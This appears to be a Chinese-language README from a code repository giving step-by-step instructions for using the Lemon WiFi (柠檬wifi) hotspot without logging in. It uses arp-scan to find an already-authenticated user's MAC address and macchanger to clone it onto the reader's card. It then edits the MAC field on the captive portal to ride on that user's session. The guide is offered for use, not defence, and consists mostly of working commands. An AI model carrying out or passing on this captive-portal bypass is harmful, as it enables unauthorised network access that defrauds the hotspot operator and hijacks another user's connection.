





# 目录说明
免登录使用柠檬wifi上网

# 原理
通过修改mac地址,使用已登录用户的mac地址,实现上网  

# 准备工作
 - 需要已有用户正在上网
 - 需要linux和支持修改mac地址的网卡(笔记本网卡一般都支持)

 # 开始(以[kali linux](https://www.kali.org/)为例)
 - 正常连接柠檬wifi  
 - 打开浏览器,任意访问一个网址,跳转到认证界面
    
 - 获取设备网卡信息 `sudo iwconfig`  
      
    得到 `wlan0` (后文wlan0改成自己的无线网卡) 
 - 获取已连接用户的mac地址 `sudo arp-scan -l --interface=wlan0` 
    
    这里我们任选一个幸运用户 `30:a2:c2:4a:df:47`
 - 设置本机网卡mac地址为幸运儿的  
    1. 停用`wlan0`网卡 `sudo ifconfig wlan0 down`  
    2. 修改`wlan0`的mac地址为`30:a2:c2:4a:df:47` `sudo macchanger -m 30:a2:c2:4a:df:47 wlan0`  
    3. 启用`wlan0`网卡 `sudo ifconfig wlan0 up`  
    4. 查看当前`wlan0`网卡的mac地址 `sudo macchanger -s wlan0`  

    
 - 回到柠檬wifi认证界面,把设备mac地址部分改成幸运儿的,按回车  
    即使仍然提示需要登录,事实上已经可以正常上网了.
      